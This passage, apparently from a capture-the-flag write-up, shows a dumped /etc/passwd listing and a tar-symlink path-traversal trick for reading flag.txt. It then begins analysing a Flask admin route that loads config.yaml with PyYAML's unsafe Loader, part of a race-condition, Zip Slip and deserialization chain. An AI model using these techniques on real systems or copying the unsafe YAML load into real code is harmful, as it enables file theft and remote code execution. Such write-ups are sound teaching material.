 ```bash
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
analyzer:x:1000:1000:Linux User,,,:/home/analyzer:


# exploit
sudo ln -s ../../../../../../../../../flag.txt  flaglink
tar -cvf link.tar flaglink
```

### 2: Race Condition  &&  Zip Slip Vuln && YAML Deserialization Attack to RCE

`/admin` interface will first exec `initializing()` 

```python
@app.route('/admin', methods=['GET'])
def admin():
    initializing()
    data = hostcheck(request.remote_addr)
```

  `initializing()`  wriete data to config.yaml with  `dump()` 

```python
def initializing():
	try:
		with open('config.yaml', 'w') as fp:
			data = {'allow_host':'127.0.0.1', 'message':'Hello Admin!'}
			fp.write(dump(data))
	except:
		return False
```

then turns to `hostcheck()` , load data from  config.yaml 

```python
def hostcheck(host):
	try:
		with open('config.yaml', 'rb') as fp:
			config = load(fp.read(), Loader=Loader)
		if config['allow_host'] == host:
			return config['message']
		else:
			raise()
	except:
		return False
```
